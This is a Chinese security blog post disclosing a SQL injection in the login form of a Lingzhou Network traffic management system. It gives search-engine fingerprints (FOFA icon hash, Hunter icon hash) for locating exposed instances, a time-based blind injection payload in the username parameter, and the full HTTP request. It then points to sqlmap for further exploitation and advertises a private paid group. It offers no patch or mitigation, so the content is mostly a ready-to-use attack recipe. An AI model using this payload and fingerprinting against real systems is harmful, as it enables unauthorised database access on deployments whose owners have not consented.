 #  1Day-某优先锋-流量管理系统存在SQL注入漏洞   
原创 狐狸  狐狸说安全   2024-12-17 01:01  
  
**免责声明**  
  
由于传播、利用本公众号狐狸说安全所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号  
狐狸说安全及作者不为**此**  
承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉，谢谢！  
### 0x01 概述  
  
灵州网络隶属于北京灵州网络技术有限公司，公司是注册成立于北京市中关村高科技园区的专业化的计算机软件公司，是经北京市科委认定的高新技术企业。公司致力于研究发展计算机网络技术，开发销售具有自主知识产权的网络计费、网络安全、网络应用等专业网络软件产品，对客户提供专业化的一站式技术服务。公司以市场需求为导向，以先进的技术为保证，以向用户提供优质的产品和服务为目标，以专业化技术、系统化产品和优质的服务树立公司形象。公司的特点是计算机软件专业背景深厚，管理人员和主要技术人员长期从事系统软件底层的技术研究和项目开发，如UNIX操作系统内核，网络协议等，公司的专有技术是软件工程化管理、具有可操作性的自动集成技术、软件的自动配置和工厂化管理、一致性测试和软件的相关标准和开发规范、指南、工具等。公司所有产品都具有自主知识产权。“学习型团队”是公司始终追求的目标，鼓励员工充分发挥聪明才智与潜能，并尽一切力量为员工搭建施展才能的舞台，使员工与企业共同成长！  
### 0x02 正文  
  
**Fofa：icon_hash="-759778190"**  
  
**鹰图指纹：web.icon="657affa2bb305c999a93ca1a57d8b56f"**  
  
****  
登录的时候进行抓包，漏洞点在username处  
  
Username处存在注入  
  
测试payload：  
```
admin'and sleep(5) and '1
```  
  
数据包：  
```
POST /data/login/dologin.php HTTP/1.1
Host: xxxxx
Content-Length: 60
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Accept: */*
Origin: http://xxxx
Referer: http://xxxx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie:
Connection: close
action=login&username=admin'and sleep(5) and '1&passwd=admin
```  
  
使用sqlmap进行测试  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/pH5fZ5lvwwZeMsMjjpDxKXRLSYvbzTk1OV0Yyw2Ff9ykwEaJXOFwSuQ94E7Y4iapcqUmEqx35UsbOnqxqiaLEiaGg/640?wx_fmt=png&from=appmsg "")  
  
  
**0x03结尾**  
  
此漏洞前几天已上传圈子  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/pH5fZ5lvwwZeMsMjjpDxKXRLSYvbzTk1mlNUIn13qNticMAguUEvLsGgiaOJ9Y2cYG1DZmCXStTGaVjAmsWRskzw/640?wx_fmt=png&from=appmsg "")  
  
**0x04内部圈子**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/pH5fZ5lvwwZeMsMjjpDxKXRLSYvbzTk1vChyWIMaHZNhCHesKiaUnO06Zt4xywNy2clScCE25ynIWd7dcAPThtg/640?wx_fmt=jpeg&from=appmsg "")  
  
